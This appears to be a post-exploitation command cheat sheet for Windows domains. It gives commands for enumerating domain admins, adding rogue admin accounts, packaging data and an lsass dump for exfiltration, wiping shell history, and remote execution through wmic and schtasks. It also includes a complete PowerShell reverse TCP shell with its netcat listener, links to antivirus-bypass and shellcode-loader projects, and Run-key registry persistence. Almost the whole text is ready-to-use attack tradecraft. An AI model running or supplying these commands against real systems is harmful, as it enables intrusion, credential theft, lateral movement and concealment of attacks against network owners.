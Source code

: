 ===========scan 



========Domain control
net user 
net user /domain 
net group /domain 
net view /domain 
net group "domain admins" /domain 
net localgroup administrators /domain 
net user username password /add /domain 
net time /domain 
net view /domain 
net localgroup administrators workgroup\test123 /add 
net group "domain controllers" /domain 

dsquery computer 
dsquery contact 
dsquery group 
dsquery user 
dsquery subnet 
dsquery server 

===============information package
7z.exe -r -v6m -padmin a c:\test.7z C:\AppServ\www\import*.* 
7z.exe x -padmin test.7z.001 -oc:\xl

Rar.exe a -r -v6m -padmin -m3 -x*.txt -ta c:\test.rar C:\AppServ\www\import*.* 
Rar.exe x -padmin c:\test.part01.rar c:\xl 

makecab /d compressiontype=lzx C:\Users\lsass.txt C:\Users\lsass.cab >> C:\Users\info.txt
expand.exe lsass.cab -f:* .

================log clear
wc -l ~/.bash_history
sed -i '73,$d' ~/.bash_history
tail -10f ~/.bash_history

==================remote execute
wmic /node:192.168.1.1 /user:administrator /password:"passwd" /namespace:\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
wmic /node:192.168.1.1 /user:administrator /password:"passwd" os get Caption,OSArchitecture,Version
wmic /node:192.168.1.1 /user:administrator /password:"passwd" product list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" startup list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process where name="test.exe" call terminate

schtasks /create /s 172.10.1.1 /u administrator /p "passwd" /ru SYSTEM /tn test /sc DAILY /tr "C:\Users\hacker.exe -a -b c" /F & schtasks /run /s 172.10.1.1 /u administrator /p "passwd" /tn test /i & schtasks /delete /s 172.10.1.1 /u administrator /p "passwd" /tn test /f


================powershell
change file time
powershell.exe -command "Get-ChildItem -Path C:\ -Recurse –Include .txt,.doc,.xls,.pdf,.ppt,.docx,.xlsx,.pptf,.csv,.lnk | Where-Object { $.LastWriteTime -ge '02/01/2019 00:00:00' -AND $.LastWriteTime -le '10/27/2022 00:00:00'} | Copy-Item -Force -Destination C:\Users"

write file
powershell.exe -command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("......")) | Set-Content testfoo.txt"

----------reverse tcp shell
nc -lvp 6666

powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.10.139',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
----------

================BypassAV
https://github.com/TideSec/BypassAntiVirus
https://github.com/clinicallyinane/shellcode_launcher/
https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html




================Persistence
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f /v test /t REG_SZ /d "rundll32.exe "C:\Users\test\test.dll" Test"
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "test" /f
